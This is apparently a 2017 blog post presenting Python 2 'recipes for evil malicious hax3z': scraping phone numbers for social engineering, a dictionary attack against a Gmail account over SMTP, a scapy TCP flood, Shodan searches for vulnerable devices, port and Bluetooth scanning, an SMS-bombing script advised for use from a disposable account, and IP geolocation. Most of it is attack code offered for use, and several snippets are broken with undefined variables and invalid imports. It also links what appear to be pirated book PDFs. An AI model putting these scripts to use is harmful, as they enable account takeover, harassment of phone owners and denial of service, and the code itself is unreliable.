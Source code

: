 ```yaml
---
title: Python for Security
date: 2017-04-08 00:00:00 Z
subtitle: Weaponizing the Python Programming Language
layout: post
---
```


Python is one of the greatest programming languages for hackers. Not because of its easiness actually, but it is __beginner-friendly__ and __fast to deploy__. One of the best thing about the language is the resemblance to that of a natural language, sharing syntactical and semantical rules that very much look like English.

    for i in range(0, 50):
      print "Hello"

Without a doubt, Python has that pseudocode feel that gives it the edge of being an _ideal_ language for the greenhorn. But still, with the vast variety of libraries, modules and frameworks available for the language, the use of Python is also incredibly __expansive__. In this article, we are going to implement Python for the intent of penetration testing.

Take __Black Hat Python__ for example. Great book. Ever wanted to build a quick TCP server? Simple. Implement `socket`. Make an object, connect, send some header data, and await a response. Working with networking and TCP/IP has never been easier.


    host = "www.test.com"
    port = 80
    obj = socket(socket.AF_INET, socket.SOCK_STREAM)
    obj.send("GET / HTTP/1.1\r\nHost:" + host + "\r\n\r\n")
    response = obj.recv(4096)
    print response

The point is, with an ever growing collection of Python libraries and easy to deploy code, Python is ideal for the modern hacker. If you ever look at some of the source code for popular pentesting tools, you will see a large
amount of Python.

Well, today I'm more of here to talk to about some applicable code you can use in pentesting situations, where you may not always have access to a Kali machine. And maybe with some ingenuity, you can even execute
this code on a mobile device. So here are my favorite Pythonic recipes.

## 1. Extract Phone Numbers
Let's start off with something simple. Say we want to siphon some Phone Numbers from a document or some sort of webpage. We want to social engineer these numbers, but the page is just spewing a ton of bullshit we don't care much for.

    import re, urllib
    url = "www.test.com/contact.html"
    htmlFile = urllib.urlopen(url)
  	html = htmlFile.read()
    phoneNums = re.findall(r'^(\+\d{1,2}\s)?\(?\d{3}\)?[\s.-]\d{3}[\s.-]\d{4}$', html)
    print phoneNums

The core component that you need to understand is 5th line, where you would see a random string. What is it?
That is known as a __regular expression__. This is basically a special string that signifies a specific
pattern to look for. That specific regex specified looks for standard phone-numbers in these formats:

    ###-###-####
    (###) ###-####
    ### ### ####
    ###.###.####

[(source for regex)](http://stackoverflow.com/questions/16699007/regular-expression-to-match-standard-10-digit-phone-number)

## 2. Hacking SMTP (email)

With the vast collection of modules for Python, there obviously is one for __SMTP__, also known as ___Simple
Mail Transfer Protocol___. This is the protocol utilized by email services. Let's make a simple script that launches a dictionary attack on a sample Gmail account (can be utilized on other SMTP services, such as Yahoo).

    import smtplib
    username = "hackme@gmail.com"
    # Specify a wordlist
    wordlist = open("wordlist.txt", 'r')
    for i in wordlist.readlines():
          password = i.strip("\n")
          try:
              s = smtplib.SMTP("smtp.gmail.com", 587)
              s.ehlo() # identify self to server to confirm working
              s.starttls() # start secure connect
              s.ehlo
              s.login(username, str(password))
              print "Found! Password: %s" % password
              s.close
            except:
              print "OOPs something went wrong"

Let's look at a few lines. the `for` keyword takes each newline within the `wordlist.txt` and appends it as a possible password. When we look at line 8, a SMTP object is defined, connecting to the Gmail SMTP server on port 587. The SMTP object would attempt to login using with the username, and each password from within the wordlist.

## 3. TCP DoS attack
This quick script provides a way for the user to employ a quick stress.

    from scapy import *
    target = "127.0.0.1" # replace with target IP address
    port = 80
    sport = 8080 # replace with source port, or import random to randomize.
    while True:
      send(IP(dst=target) / TCP(sport=x,dport=port), inter=.005)
      print "Sent. Kill with Ctrl + C"

We look at line 6. This implements the module `scapy`. Three variables are utilized, a target address, port,
and source port. The send() method identifies that, as well as using the TCP protocol.

## 4. Searching Vulnerability with Shodan
This script implements the `shodan` API in order to find vulnerable devices/services.

    import shodan
    SHODAN_API_KEY = # key here
    # Create object
    api = shodan.Shodan(SHODAN_API_KEY)
    try:
        results = api.search("") # string to search
        print "Result: %s" % results[total]
        for result in results['matches']:
            print "IP: %s" % result['ip_str']
            print result['data']
    except shodan.APIError, e:
        print "Something went wrong"

## 5. Scanning with Nmap
Very simple host scan using the `python-nmap` module.

    import python-nmap
    ip = '127.0.0.1' # replace with target host
    scan = nmap.PortScanner()
    scan.scan(ip, '0-65535') # scan host, all ports

## 6. Sniffing Bluetooth Devices

    from bluetooth import *
    from time import *
    found = []
    def findDevices():
        foundDevs = discover_devices(lookup_names = True)
        for (addr. name) in foundDevs:
            if addr not in alreadyFound:
                print "Found Device " + str(name)
                print "MAC Address: " + str(addr)
                found.append(addr)
    while True:
        findDevices()
        sleep(5)

## 7. SMS Bomb
This script uses the `smtplib`, just as the SMTP cracker does. However,
this time it is implemented on email-2-text carrier address.

    import smtplib
    # It is important to use a disposable Gmail account
    gmail = "test@gmail"
    password = "somepassword"
    target_num = "123-456-7890@vtext.com"
    # Example Verizon SMS address. Replace with carrier address of num.
    o = smtplib.SMTP("smtp.gmail.com:587")
    o.starttls()
    o.login(gmail, password)
    message = "Something hi"
    spam_msg = "From: {} \r\nTo: {} \r\n\r\n {}".format(gmail, phone_num, message)
    counter = 20 # execute 20 times
    for i in range(counter):
          o.sendmail(gmail, phone_num, spam_msg)

## 8. Geolocation
Take an IP address, and you get back some nice juicy information about geolocation.

    import pygeoip
    # GeoIP object
    gi = pygeoip.GeoIP('GeoIP.dat') # specify database file for GeoIP.
    gi = pygeoip.GeoIP('GeoIPRegion.dat') # region
    gi = pygeoip.GeoIP('GeoIPCity.dat') # city
    gi = pygeoip.GeoIP('GeoIPISP.dat') # ISP
    ip = "127.0.0.1" # replace with IP address!
    # Country
    gi.country_name_by_addr(ip) #=> "United States" for e.g
    gi.region_by_addr(ip) #=> {'region_name': 'NY', 'country_code': 'US'}
    gi.record_by_addr(ip) #=> Returns a huge dict of stuff Im not even gonna give an example
    gi.org_by_addr(ip) #=> "Super Techcom ISP Inc. Corp."
    # More info: https://github.com/appliedsec/pygeoip/wiki
    # Even more info: http://pygeoip.readthedocs.io/en/v0.3.2/getting-started.html

  That's just some of my favorite quick delicious recipes for evil malicious Pythonic hax3z.

  As a language that includes elements of a __procedural scripting__ language and __object-oriented__ language, Python provides at-ease use for both hackers and engineers. I rely greatly on Python when it comes to writing scripts and projects, and hopefully, I'll continue to utilize it. However, to add some variation, I'll start with some projects in C, Rust and Ruby as well. Exploitation is looking nice, so that's something I'm aiming at.

  Thanks for reading, and more is coming! Here is a gr8 list of books by hackers for hackers with relevance to Python:

  * [__Black Hat Python__](http://file.allitebooks.com/20150521/Black%20Hat%20Python.pdf)
  * [__Gray Hat Python__](http://www.chinastor.org/upload/2015-08/15081917086229.pdf)
  * [__Violent Python__](https://repo.zenk-security.com/Programmation/Violent%20Python%20a%20Cookbook%20for%20Hackers-Forensic%20Analysts-Penetration%20testers%20and%20Security%20Engineers.pdf)
 * and of course, if you are a beginner YEARNING to learn, here's a great classic:
 [__Automate the Boring Stuff with Python__](https://automatetheboringstuff.com/)
